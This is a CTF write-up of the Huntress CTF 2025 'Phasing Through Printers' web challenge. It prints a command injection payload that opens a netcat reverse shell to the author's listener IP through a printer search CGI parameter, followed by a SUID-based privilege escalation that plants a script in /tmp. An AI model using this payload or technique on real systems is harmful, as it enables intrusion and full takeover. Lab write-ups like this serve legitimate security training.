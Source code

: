 ```yaml
---
title: "Huntress CTF 2025 — Phasing Through Printers Write-up"
date: 2025-11-01 16:36:48 +0100
categories: ["Huntress CTF 2025"]
tags: ["Web", "CTF", "Huntress", "Command Injection"]
image: https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-1.png
---
```


> I found this printer on the network, and it seems to be running... a weird web page... to search for drivers?
---

Submitting the form would send a HTTP GET request to `cgi-bin/search.cgi?q=` with parameter `q`. I decided to do some common injections on the input field, and found that it was vulnerable to os command injection.


![phasing-through-printers-2.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-2.png)

I then decided to get an interactive reverse shell, by firstly listening on port `4444`, and then sending the command `;nc 10.200.3.4 4444 -e %2Fbin%2Fbash` as the `q` argument, and I was in:

![phasing-through-printers-3.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-3.png)

As per the challenge description, the flag is in `/root/flag.txt`, So I knew the next phase of the challenge was doing privilege escalation, so I ran the command `find / -type f -perms 4000` to look for a file thats suid vulnerable.

I found a file that could be exploited: `/usr/local/bin/admin_help`, I ran `cat /usr/local/bin/admin_help` and realised it was a binary file, and it had useful strings like `/tmp/wish.sh`.

![phasing-through-printers-4.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-4.png)

Running the `/usr/local/bin/admin_help` gave the following output:

![phasing-through-printers-5.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-5.png)

I then decided to create the `/tmp/wish.sh` file and add a command in it to print the content of the `/root/flag.txt`:

![phasing-through-printers-6.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-6.png)
